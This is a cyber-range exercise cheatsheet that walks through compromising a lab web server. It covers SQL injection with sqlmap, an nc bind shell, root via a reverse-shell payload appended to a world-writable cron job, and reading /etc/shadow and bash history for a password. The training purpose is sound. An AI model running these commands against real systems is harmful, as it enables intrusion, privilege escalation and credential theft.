 # CDIS Cyber Range | EU Cyber Attaché Exercise Cheatsheet

## 1) Identify the network services

```sh
nmap 10.0.3.193
```

## 2) Signup the ewebpage

- `http://10.0.3.193/php/inscription.php`

## 3) Identify an old version of a webpage

- `http://10.0.3.193/php/recherche_old.php` 
  
## 4) Misuse input validation vulnerability

- Enter a single quote (`'`)  into the text field and press the button
- Enter `' or 1=1#` into the text field and press the button

## 5) Retrieve arbitrary data from the database through SQL injection

- Copy the request below and paste it into a text file called `sqli.txt`
```sh
POST /php/recherche_old.php HTTP/1.1
Host: 10.0.3.193
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://10.0.3.193
Connection: close
Referer: http://10.0.3.193/php/recherche_old.php
Cookie: PHPSESSID=a62f5c5fio2i8l8spkas8mfjt6
Upgrade-Insecure-Requests: 1

recherche=emre&btnRechercher=Rechercher
```
- Copy the PHPSESSID from your browser and replace the value found in the `sqli.txt`

### 5.1 Execute `sqlmap` to identify database names

```sh
sqlmap -r sqli.txt --dbms=mysql --dbs 
```

### 5.2 Execute `sqlmap` to get the records found in the in the `cuiteur` database
```sh
sqlmap -r sqli.txt --dbms=mysql -D cuiteur --dump
```

## 6) Grant the initial shell access

### 6.1 Execute `sqlmap` to grant a SQL shell connection via SQL injection
```sh
sqlmap -r sqli.txt --dbms=mysql --os-shell
```

### 6.2 Execute OS commands through the SQL shell connection
```sh
whoami

hostname

pwd
```

### 6.3 Execute the following command to have a more convenient bind shell access
```sh
rm /tmp/pipe; mkfifo /tmp/pipe; /bin/sh /tmp/pipe | nc -l 5555 > /tmp/pipe
```

### 6.4 Execute the following command to establish a `nc` bind connection (Switch to another terminal on your **Kali**)
```sh
nc 10.0.3.193 5555
```

### 6.5 Execute some OS commands through the `nc` connection
```sh
whoami

pwd
```

### 6.6 Identify a file with a promising filename
```sh
cd ..

ls

ls /var/www/upload

# Download the file from the web browser
http://10.0.3.193/upload/leaks.zip

unzip leaks.zip
```

### 6.7 Realize also that you have limited access
```sh
cat /etc/shadow
```

## 7) Identify a vulnerable configuration

### 7.1 Identify a world-writable directory
```sh
find / -writable -type f ! -path "/proc/*" ! -path "/sys/*" ! -path "/var/www/*" -exec ls -al {} \; 2>/dev/null
```

## 8) Escalate privileges to root

### 8.1 Examine the cron job with write access for everyone 
```sh
cd /etc/cron.hourly
cat cuiteur-cleaning
```
### 8.2 Open a listener on the **Kali** for a reverse shell connection with root privileges
```sh
sudo nc -nlvp 7777
``` 
### 8.3 Edit the cron job to have a reverse shell payload inside
```sh
echo "rm /tmp/pipe; mkfifo /tmp/pipe; nc 192.168.0.2 7777 0</tmp/pipe | /bin/sh >/tmp/pipe 2>&1" >> cuiteur-cleaning
```

### 8.4 Execute some OS commands through the `nc` connection
```sh
whoami

pwd

locate flag{

cat /etc/shadow
```

## 9) Identify a plaintext password in the bash history  

### 9.1 Perform post-exploitation activities
```sh
cat /root/.bash_history
```

### 9.2 Access the password-protected file
```sh
unzip -P "x5^#CNYK-Ng@MkHZR748" /home/emre/Downloads/leaks.zip
```
